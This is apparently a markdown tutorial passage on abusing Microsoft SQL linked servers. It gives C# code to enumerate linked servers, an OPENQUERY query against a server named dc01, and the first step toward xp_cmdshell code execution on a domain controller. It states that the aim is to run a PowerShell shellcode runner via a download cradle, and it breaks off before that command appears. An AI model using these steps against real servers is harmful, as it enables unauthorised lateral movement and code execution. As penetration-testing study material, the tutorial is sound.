


## Following The Link
The first step to get sysadmin member on linked servers, is to enumerate servers linked to the current SQL server.
The [_sp_linkedservesr_](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-linkedservers-transact-sql?view=sql-server-ver15) stored procedure returns a list of linked servers for us. It does not require any arguments, but it may return multiple results that we must print to the console:
```SQL
String execCmd = "EXEC sp_linkedservers;";

SqlCommand command = new SqlCommand(execCmd, con);
SqlDataReader reader = command.ExecuteReader();

while (reader.Read())
        {
            Console.WriteLine("Linked SQL server: " + reader[0]);
        }
 reader.Close();
```
(we use a loop to print multiple results)

Compiling and running the console application enumerates any linked servers:



With the servers enumerated, we can find the version of sql server with the [_OPENQUERY_](https://docs.microsoft.com/en-us/sql/t-sql/functions/openquery-transact-sql?view=sql-server-ver15) keyword as part of the FROM clause:
```SQL
select version from openquery("dc01", 'select @@version as version')
```

Executing the application, we can run a query on the linked server:



## Code Execution
We will execute our PowerShell shellcode runner through a download cradle with the xp_cmdshell stored procedure.
Microsoft SQL uses _Remote Procedure Call_ (RPC) to do so.
Thus, the created link must be configured with outbound RPC through the [_RPC Out_](https://docs.microsoft.com/en-us/previous-versions/sql/sql-server-2008-r2/ms186839(v=sql.105)?redirectedfrom=MSDN) setting.
If RPC Out is not allowed, it can be enabled with the [_sp_serveroption_](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-serveroption-transact-sql?view=sql-server-ver15) stored procedure if our current user has sysadmin role membership.

(Microsoft documentation for OPENQUERY specifically states that executing stored procedures is not supported on linked SQL servers. Instead, we are going to use the _AT_ keyword to specify which linked SQL server a query should be executed on.)

```SQL
EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT DC01
```
